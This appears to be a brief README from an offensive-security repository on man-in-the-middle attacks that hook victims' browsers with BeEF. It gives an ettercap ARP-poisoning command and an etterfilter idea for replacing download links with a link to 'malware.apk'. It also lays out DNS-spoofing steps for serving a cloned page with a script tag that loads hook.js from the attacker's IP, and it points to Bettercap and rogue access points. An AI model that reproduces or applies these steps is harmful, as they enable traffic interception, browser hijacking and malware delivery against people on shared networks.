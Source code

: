 # crypto_bitm_mitm <beef_xss_hosted_hookjs_ip>

# Example : 

* crypto_bitm_mitm 192.168.1.109

* ettercap -TQ -M ARP:REMOTE -f $crypto_filter  "/ipofthetargets//" "/ipofthetargets//"


# we can use etterfilter and etterfilter syntax to write and compile our filter to replace everything in html
# for Example : 

# replace <a href="test_file.zip" download>Download</a>  with :  <a href="http://host/malware.apk" download>Download</a>

----------------------------------

2) Using any http server & with dnsspoof & beefxss

* 1- first  dnsspoof targets and hosts
* 2- curl http://yoursite.com -o index.html
* 3- put your hook at the head,  <script src="http://yourip:3000/hook.js"></script>
* 4- choose apache2 or nginx or twistd http server to serve 
* 5- start serveing 


-----------------------------------

3) Using Bettercap & beefxss

* useful resources

* https://www.youtube.com/watch?v=ZOOkeUnQsjk

* https://youtube.com/watch?v=3wAccKTfnLo

---------------------------------------------------------

3 ) through fake hotspot 


* Rouge Access Point + MITM
https://www.geeksforgeeks.org/mitm-man-in-the-middle-create-virtual-access-point-using-wi-hotspot-tool/
